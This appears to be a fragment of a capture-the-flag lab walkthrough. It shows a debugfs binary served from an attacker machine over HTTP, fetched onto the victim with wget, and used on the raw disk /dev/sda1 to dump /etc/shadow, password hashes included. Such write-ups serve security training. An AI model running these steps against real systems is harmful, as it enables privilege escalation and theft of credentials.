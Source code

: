 `file ./e2fsprogs/sbin/debugfs`:
```
./e2fsprogs/sbin/debugfs: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=97f96a4d2f0a52225e71bbfb83408bab27b0b6a3, for GNU/Linux 3.2.0, stripped
```

`python3 -m http.server 80 -d ./e2fsprogs/sbin`:
```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ... ←
```

![Victim: coralie](https://img.shields.io/badge/Victim-coralie-64b5f6?logo=linux&logoColor=white)

`wget http://192.168.56.118/debugfs`:
```
--2024-10-16 12:43:24--  http://192.168.56.118/debugfs
Connecting to 192.168.56.118:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 239440 (234K) [application/octet-stream]
Saving to: ‘debugfs’

debugfs                                         100%[====================================================================================================>] 233.83K  --.-KB/s    in 0.006s  

2024-10-16 12:43:24 (36.0 MB/s) - ‘debugfs’ saved [239440/239440] ←
```

`chmod u+x ./debugfs`

</🔄 Alternative Step.>

`./debugfs`:
```
debugfs 1.47.0 (5-Feb-2023)
debugfs:  open /dev/sda1 ←
```
```
debugfs:  cat /etc/shadow ←
root:$y$j9T$iAHGFf9E40kdt5eEY4R790$1Hnu3bkcGq69yrKAWBL9zuT1cLG16/ENdKsxR1omAqB:19779:0:99999:7:::
daemon:*:19779:0:99999:7:::
bin:*:19779:0:99999:7:::
sys:*:19779:0:99999:7:::
sync:*:19779:0:99999:7:::
games:*:19779:0:99999:7:::
man:*:19779:0:99999:7:::
lp:*:19779:0:99999:7:::
mail:*:19779:0:99999:7:::
news:*:19779:0:99999:7:::
uucp:*:19779:0:99999:7:::
proxy:*:19779:0:99999:7:::
www-data:*:19779:0:99999:7:::
backup:*:19779:0:99999:7:::
list:*:19779:0:99999:7:::
irc:*:19779:0:99999:7:::
_apt:*:19779:0:99999:7:::
nobody:*:19779:0:99999:7:::
systemd-network:!*:19779::::::
systemd-timesync:!*:19779::::::
messagebus:!:19779::::::
avahi-autoipd:!:19779::::::
sshd:!:19779::::::
ntpsec:!:19779::::::
epmd:!:19779::::::
melbourne:$y$j9T$9AW5vMwISGEth89TZdLQX.$3oxC.VAZ57n4S94eRdZzcsGbgIoiAxWTdCP7afTV7x2:19779:0:99999:7:::
```